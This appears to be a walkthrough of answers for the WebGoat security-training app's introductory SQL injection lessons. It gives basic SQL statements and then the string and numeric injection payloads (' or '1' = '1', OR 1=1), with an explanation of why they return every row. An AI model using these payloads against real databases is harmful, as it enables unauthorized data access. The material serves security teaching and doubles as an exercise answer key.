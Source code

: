 # WebGoat

## A1 Injection (intro)

### What is SQL?
Try to retrieve the department of the employee Bob Franco.
```sql
SELECT department FROM employees WHERE first_name = 'Bob' AND last_name = 'Franco';
```

### Data Manipulation Language (DML)
Try to change the department of Tobi Barnett to 'Sales'.
```sql
UPDATE employees SET department = 'Sales' WHERE first_name = 'Tobi' AND last_name = 'Barnett';
```

### Data Definition Language (DDL)
Now try to modify the scheme by adding the column "phone" (varchar(20)) to the table "employees".
```sql
ALTER TABLE employees ADD phone Varchar(20);
```

### Data Control Language (DCL)
Try to grant the usergroup "UnauthorizedUser" the right to alter tables.
```sql
GRANT ALTER TABLE TO UnauthorizedUser;
```

### String SQL injection
Try to retrieve all the users from the users table.
```sql
SELECT * FROM user_data WHERE first_name = 'John' and last_name = '' or '1' = '1';
```

<img src="String_SQL_Injection.png" alt="String SQL Injection" width="700">

Explanation: This injection works, because or '1' = '1' always evaluates to true (The string ending literal for '1 is closed by the query itself, so you should not inject it). So the injected query basically looks like this: SELECT * FROM user_data WHERE first_name = 'John' and last_name = '' or TRUE, which will always evaluate to true, no matter what came before it.

### Numeric SQL injection
Try to retrieve all the users from the users table.
```sql
SELECT * From user_data WHERE Login_Count = 1 and userid= 1 OR 1=1;
```
For this query, the numerical value of Login_Count does not matter.
Just give any numeric value to userid and add "OR 1=1" which is always TRUE.
